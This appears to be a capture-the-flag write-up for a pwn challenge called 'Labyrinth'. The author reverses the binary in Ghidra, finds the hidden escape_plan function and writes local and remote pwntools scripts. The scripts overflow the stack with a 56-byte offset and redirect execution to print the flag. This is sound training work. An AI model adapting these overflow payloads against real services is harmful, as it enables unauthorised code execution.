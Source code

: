 ```yaml
---
title: Labyrinth
tags:
  - CTF
  - Pwn
---
```

If we unzip the file, we get the following content:

![](Pasted%20image%2020241013140534.png)

![](Pasted%20image%2020241013140820.png)

So let's open the binary with **Ghidra**:

![](Pasted%20image%2020241013140705.png)

We can inspect the `main` function. Basically, if we input 69 or 069 that will lead to the correct door:

![](Pasted%20image%2020241013140951.png)

![](Pasted%20image%2020241013140915.png)

Now, no matter what input you enter because it does not work. So it was time to apply a buffer overflow attack. It's time to create a python script. During the decompiled source code inspection, I saw the `escape_plan` function, which shows the flag:

![](Pasted%20image%2020241013141153.png)

So I first needed the address of that function:

```shell
objdump -d labyrinth | grep escape

0000000000401255 <escape_plan>:
  4012cd:       79 2e                   jns    4012fd <escape_plan+0xa8>
  401316:       7f cd                   jg     4012e5 <escape_plan+0x90
```

So its address is `0x401255`. I tried different offsets to rip the register and inject the address of the function. The offset is ***56***. The script is:

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

binary_path = "labyrinth"
elf         = ELF(binary_path)
offset = 56
# new_rip = p64(elf.symbols["escape_plan"])     # 0x401255 is not multiple of 8 !!!
return_address = p64(elf.symbols["main"])

payload = b"".join(
    [
        b"A"  * offset,
        # new_rip,                              # get rid of this and use 0x401256
        b'\x56\x12\x40\x00\x00\x00\x00\x00', # needed to be written in reverse
        return_address
    ]
)

with open("payload", "wb") as filp:
    filp.write(payload)

io = process(elf.path)
io.recvregex(b'>>')
io.sendline(b'069')
io.recvregex(b'>>')
io.sendline(payload)
print_lines(io)
```

![](Pasted%20image%2020241013141620.png)

It worked!, so it was time to create a script for the remote version:

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    info("---Printing io received lines---")
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

# Setup and open connection
IP   = '165.227.224.40' # Change this
PORT = 30575            # Change this
r    = remote(IP, PORT)

# Craft payload
offset = 56
padding = b"A" * offset
retaddr = p64(0x401256)
payload = b"".join([padding, retaddr])

# Wait for prompt
print(r.recvregex(b'>>').decode())

# Send first input
r.sendline(b'069')

# Wait for new prompt
print(r.recvregex(b'>>').decode())

# Send payload
r.sendline(payload)

# Get the flag !
print_lines(r)
```

![](Pasted%20image%2020241013141821.png)